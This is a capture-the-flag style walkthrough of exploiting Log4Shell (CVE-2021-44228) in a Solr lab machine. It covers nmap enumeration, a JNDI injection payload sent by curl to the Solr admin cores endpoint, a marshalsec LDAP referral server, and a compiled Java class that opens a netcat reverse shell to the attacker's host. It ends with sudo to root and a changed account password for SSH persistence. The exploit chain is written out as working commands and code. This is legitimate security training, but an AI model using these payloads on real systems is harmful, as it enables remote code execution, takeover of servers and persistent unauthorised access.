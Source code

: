 ```yaml
---
published: false
---
```

With CVE-2021-44228 vulerability (Log4Shell) posing a major threat to Java applications hosted on the internet with a CVSS score of 10.0 critical designation. Remote code execution can be accomplished by taking advantage of a Java Naming and Directory Interface (JNDI) within Log4j logging packages. Solar provides a test scenairo for exploitation of vulnerability.  

----------

Legal Notice && Usage: *The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*
*By continuing, you acknowledge the aforementioned user risk/responsibilities.*

----------


# Reconnaissance

## Enumeration

Nmap scan:

    nmap -v -p- 10.10.212.184

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640108734185_image.png)





futher enumerate port 8983

    nmap -sV -p 8983 10.10.212.184

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105066145_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105737675_image.png)

# Discovery


## Http Server

navigate to `http://10.10.212.184:8983`

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105787116_image.png)


Argument set for `-Dsolr.log.dir` set to `/var/solr/logs`

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105901767_image.png)


**Downloaded Task Files**

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105925136_image.png)


within the `solr.log` file we can discover and example of the solr log file that is normally generated.

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105981072_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105970426_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640106058730_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640106016837_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640106165663_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640106156327_image.png)



# Proof of Concept

navigate to `http://10.10.212.184:8983/solr/admin/cores`

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640106253666_image.png)



## log4j payload

    ${jndi:ldap://ATTACKERCONTROLLEDHOST}

**Creating a test scenario**

Adding a callback request from target to local attacking machine would allow a local listener to capture any incoming request

Listener setup on port 9999 locally and payload is sent via curl:

    curl 'http://10.10.212.184:8983/solr/admin/cores?foo=$\{jndi:ldap://10.10.159.175:9999\}'

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640106763648_image.png)


successful connection from target system to attacking system can be established by crafted injection to the `?foo` parameter.


**setup local LDAP server**

    java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR.ATTACKER.IP.ADDRESS:8000/#Exploit"

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109159869_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109171679_image.png)


**craft java reverse shell** 
on attacking machine create an exploit.


    public class Exploit {
        static {
            try {
                java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }

compile java exploit code:

    javac Exploit.java -source 8 -target 8

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640107727782_image.png)


newly created `Exploit.class` file that will be hosted locally and sent to target via the jndi payload.

**send payload**

    curl 'http://10.10.212.184:8983/solr/admin/cores?foo=$\{jndi:ldap://10.6.124.83:1389/Exploit\}'

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109326110_image.png)
![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109333074_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109310919_image.png)



# Persistence

Establishing a foothold on box as `solr`

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109529895_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109516480_image.png)


Check sudo `sudo -l`

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109599279_image.png)


called `"/bin/bash"` with sudo for a root shell.

changing password of `solr` for the ability to ssh into target.
